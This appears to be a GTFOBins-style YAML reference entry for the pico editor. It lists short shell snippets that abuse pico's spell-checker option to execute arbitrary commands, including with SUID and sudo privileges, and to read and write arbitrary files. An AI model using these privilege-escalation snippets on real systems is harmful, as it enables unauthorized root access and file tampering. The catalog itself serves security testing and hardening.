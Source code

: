 ```yaml
---
functions:
  execute-non-interactive:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        pico file_to_write
        data
        ^O
  file-read:
    - code: pico file_to_read
  suid-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  sudo-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo pico -s $TF /etc/hosts
        ^T
---
```

